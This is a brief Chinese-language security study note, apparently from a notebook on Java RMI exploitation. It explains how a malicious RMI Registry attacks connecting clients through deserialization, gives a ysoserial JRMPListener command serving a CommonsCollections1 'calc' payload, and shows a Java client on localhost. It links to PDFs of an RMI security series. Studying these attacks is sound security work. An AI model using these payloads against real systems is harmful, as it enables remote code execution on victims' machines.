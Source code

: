 ****Registry攻击Client****

搭建恶意的Registry来模拟JRMP协议通信，返回给Client一些恶意的序列化数据，那么就可以达到攻击的效果，除了`unbind`和`rebind`，剩下的三种方法都会返回序列化数据给Client，然后Client会反序列化这些数据

ysoserial工具中的JRMPListener模块

```java
//搭建恶意Registry
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099  CommonsCollections1 'calc'
```

Client

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
 
 
public class Client {
 
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        registry.list();
    }
}
```

## Java安全**漫谈RMI篇**

### **Java安全漫谈 - 04.RMI篇(1)**

[Java安全漫谈 - 04.RMI篇(1).pdf](RMI攻击利用%20attachments/Java%E5%AE%89%E5%85%A8%E6%BC%AB%E8%B0%88_-_04.RMI%E7%AF%87(1).pdf)

### **Java安全漫谈 - 05.RMI篇(2)**

[Java安全漫谈 - 05.RMI篇(2).pdf](RMI攻击利用%20attachments/Java%E5%AE%89%E5%85%A8%E6%BC%AB%E8%B0%88_-_05.RMI%E7%AF%87(2).pdf)

### **Java安全漫谈 - 06.RMI篇(3)**

[Java安全漫谈 - 06.RMI篇(3).pdf](RMI攻击利用%20attachments/Java%E5%AE%89%E5%85%A8%E6%BC%AB%E8%B0%88_-_06.RMI%E7%AF%87(3).pdf)